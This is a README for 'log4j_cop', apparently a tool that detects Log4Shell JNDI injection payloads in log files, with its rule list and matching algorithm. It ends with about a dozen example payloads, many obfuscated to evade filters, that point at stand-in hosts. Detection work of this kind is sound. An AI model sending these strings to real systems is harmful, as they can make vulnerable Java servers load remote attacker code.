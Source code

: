 # log4j_cop

Detect log4j payloads from a log file.

**Usage:**

```bash
./log4j_cop <LOG_FILE>
```

## Rules

Currently the following rules (and variants) are being accounted for:

* ${jndi:ldap://
* ${jndi:rmi://
* ${jndi:ldaps:/
* ${jndi:dns:/
* ${jndi:nis:/
* ${jndi:nds:/
* ${jndi:corba:/
* ${jndi:iiop:/

We are also taking into account:

* Mixed case payloads
* URL encoded payloads

## Algorithm

Each line is broken into characters and we check whether these characters match
one of our rulesets in the correct order, ignoring characters that do not match.

## Examples being matched

```
${jndi:ldap://whatever.com/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```
